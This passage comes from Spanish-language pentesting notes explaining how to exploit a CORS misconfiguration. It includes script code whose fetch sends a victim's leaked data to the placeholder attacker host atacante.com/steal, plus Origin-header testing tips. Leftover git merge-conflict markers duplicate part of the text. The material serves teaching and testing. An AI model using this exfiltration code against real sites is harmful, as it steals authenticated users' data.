  // Enviar los datos robados al servidor del atacante
   fetch("https://atacante.com/steal", {
    method: "POST",
      headers: {
        'Content-Type': 'application/json' // o text/plain
      },
      body: JSON.stringify({leakedData: data}) // o solo 'data' si es texto
    });
  })
  .catch(error => console.error('Error en la explotación CORS:', error));
</script>
```

**¿Qué pasa aquí?**

1. La víctima visita `https://atacante.com/exploit.html`.
2. El script en la página del atacante hace una petición `fetch` a `https://victima.com/api/user-info`.
3. Debido a `credentials: "include"`, el navegador de la víctima adjunta automáticamente las cookies de sesión válidas para `victima.com`.
4. El servidor de `victima.com`, debido a su mala configuración CORS (reflejando `Origin: https://atacante.com` en `Access-Control-Allow-Origin` y enviando `Access-Control-Allow-Credentials: true`), permite la petición.
5. El script en `atacante.com` recibe la respuesta con los datos sensibles de la víctima.
6. El script luego envía estos datos robados a un endpoint controlado por el atacante (`https://atacante.com/steal`).

**Requisitos para la Explotación Exitosa:**

1. La víctima debe estar autenticada en `victima.com` (tener una sesión activa).
2. `victima.com/api/user-info` (o el endpoint objetivo) debe devolver `Access-Control-Allow-Credentials: true`.
3. `victima.com/api/user-info` debe devolver un `Access-Control-Allow-Origin` que valide el origen del atacante (e.g., lo refleja, o la validación es defectuosa).

<<<<<<< HEAD
### Técnicas de Descubrimiento y Pruebas

- **Inspección Manual:**
  - Usa las Herramientas de Desarrollador del navegador (pestaña "Network") para observar las cabeceras CORS en las respuestas.
  - Modifica peticiones (e.g., con Burp Suite o ZAP) para enviar una cabecera `Origin` arbitraria (e.g., `Origin: https://tu-dominio-controlado.com`) y analiza las cabeceras `Access-Control-*` en la respuesta.
  - Prueba con `Origin: null`.
  - Prueba variaciones del dominio objetivo (subdominios, dominios parecidos) si se sospecha de validación débil.
- **Uso de `curl`:**

```bash
=======
### [](https://notes.theoffsecgirl.com/04-explotacion-web/04a-control-de-acceso/cors#tecnicas-de-descubrimiento-y-pruebas)

Técnicas de Descubrimiento y Pruebas

* **Inspección Manual:**

  * Usa las Herramientas de Desarrollador del navegador (pestaña "Network") para observar las cabeceras CORS en las respuestas.
  * Modifica peticiones (e.g., con Burp Suite o ZAP) para enviar una cabecera `Origin` arbitraria (e.g., `Origin: https://tu-dominio-controlado.com`) y analiza las cabeceras `Access-Control-*` en la respuesta.
  * Prueba con `Origin: null`.
```